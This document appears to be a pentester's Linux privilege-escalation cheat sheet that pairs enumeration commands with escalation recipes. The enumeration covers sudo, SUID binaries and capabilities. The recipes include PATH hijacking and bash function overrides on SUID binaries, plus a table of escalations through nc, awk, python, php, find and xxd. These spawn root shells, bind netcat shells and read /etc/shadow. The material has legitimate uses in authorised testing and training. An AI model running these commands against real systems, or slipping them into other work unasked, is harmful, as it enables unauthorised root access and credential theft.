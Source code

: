 We can also use pspy on linux to monitor the processes that are starting up and running: <https://github.com/DominicBreuker/pspy>
Check the services that are listening: `bash ss -lnpt`

## What can we EXECUTE?

Who can execute code as root (probably will get a permission denied)?
  `cat /etc/sudoers`
Can I execute code as root (you will need the user's password)?
  `sudo -l`

What executables have SUID bit that can be executed as another user?

  ```shell
  find / -type f -user root -perm /u+s -ls 2>/dev/null
  find / -user root -perm -4000 -print 2>/dev/null
  find / -perm -u=s -type f 2>/dev/null
  find / -user root -perm -4000 -exec ls -ldb {};
  ```

Do you have any capabilities available?

  ```shell
  getcap -r / 2>/dev/null
  ```

Do any of the SUID binaries run commands that are vulnerable to file path manipulation?

  ```shell
  strings /usr/local/bin/binaryelf
  mail
  echo "/bin/sh" > /tmp/mail cd /tmp
  export PATH=.
  /usr/local/bin/binaryelf
  ```

Do any of the SUID binaries run commands that are vulnerable to Bash Function Manipulation?

 ```shell
  strings /usr/bin/binaryelf
  mail function /usr/bin/mail() { /bin/sh; }
  export -f /usr/bin/mail
  /usr/bin/binaryelf
  ```

Can I write files into a folder containing a SUID bit file?
Might be possible to take advantage of a '.' in the PATH or an The IFS (or Internal Field Separator) Exploit.

If any of the following commands appear on the list of SUID or SUDO commands, they can be used for privledge escalation:

| SUID / SUDO Executables               | Priv Esc Command (will need to prefix with sudo if you are using sudo for priv esc. |
|---------------------------------------|-------------------------------------------------------------------------------------|
| (ALL : ALL ) ALL                      | You can run any command as root.<br> sudo su - <br> sudo /bin/bash                    |
| nmap <br> (older versions 2.02 to 5.21)  | nmap --interactive <br> !sh                                                           |
| netcat <br> nc <br> nc.traditional          | nc -nlvp 4444 & <br> nc -e /bin/bash 127.0.0.1 4444                                  |
| ncat                                  |                                                                                     |
| awk <br> gawk                            | awk '{ print }' /etc/shadow <br> awk 'BEGIN {system("id")}'                         |
| python                                | python -c 'import pty;pty.spawn("/bin/bash")'                                       |
| php                                   |  CMD="/bin/sh" sudo php -r "system('$CMD');"                                        |
| find                                  | find /home -exec nc -lvp 4444 -e /bin/bash; <br> find /home -exec /bin/bash;           |
| xxd                                   | LFILE=file_to_read sudo xxd "$LFILE" | xxd -r                                       |